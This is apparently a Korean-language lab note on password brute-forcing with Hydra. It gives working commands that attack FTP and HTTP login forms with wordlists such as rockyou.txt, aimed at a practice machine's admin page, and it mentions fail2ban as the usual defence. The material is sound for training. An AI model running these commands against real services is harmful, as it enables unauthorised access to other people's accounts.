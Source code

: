 hydra --ssh brute force에 가장 일반적인 도구(
SSH 무차별 대입 공격을 완화하기 위해 일반적으로 사용되는 침입 방지 소프트웨어 프레임워크는 fail2ban)
#
`ftp`
```
hydra -l user -P passlist.txt ftp://MACHINE_IP
```
![image](https://user-images.githubusercontent.com/61821641/151919487-1b20d343-c5fb-497d-91ae-9d2663db1900.png)
#
`http`
```
hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

10.10.174.60/admin page

![image](https://user-images.githubusercontent.com/61821641/152080431-9e84c566-4e15-404a-9e40-ee838dcc3f88.png)

![image](https://user-images.githubusercontent.com/61821641/152080490-314e6b24-dde3-4833-93ae-e27859a3f71b.png)

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.174.60 http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid" -V
```

![image](https://user-images.githubusercontent.com/61821641/152080569-a0618348-83d3-4cc4-b3b3-9ebbd3d59ee5.png)